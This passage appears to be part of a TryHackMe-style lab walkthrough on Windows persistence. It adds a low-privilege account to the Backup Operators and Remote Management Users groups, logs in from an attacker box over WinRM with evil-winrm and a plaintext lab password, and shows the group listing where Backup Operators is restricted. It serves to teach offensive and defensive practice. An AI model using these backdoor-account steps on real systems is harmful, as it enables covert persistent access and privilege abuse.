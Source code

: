 - **Command Prompt**        

```shell-session
C:\> net localgroup "Backup Operators" thmuser1 /add
        
```

Since this is an unprivileged account, it cannot RDP or WinRM back to the machine unless we add it to the **Remote Desktop Users** (RDP) or **Remote Management Users** (WinRM) groups. We'll use WinRM for this task:

- **Command Prompt**        

```shell-session
C:\> net localgroup "Remote Management Users" thmuser1 /add
        
```

We'll assume we have already dumped the credentials on the server and  have thmuser1's password. Let's connect via WinRM using its credentials:

If you tried to connect right now from your attacker machine, you'd  be surprised to see that even if you are on the Backups Operators group, you wouldn't be able to access all files as expected. A quick check on  our assigned groups would indicate that we are a part of Backup  Operators, but the group is disabled:

- **AttackBox**        

```shell-session
user@AttackBox$ evil-winrm -i 10.10.146.108 -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
        
```
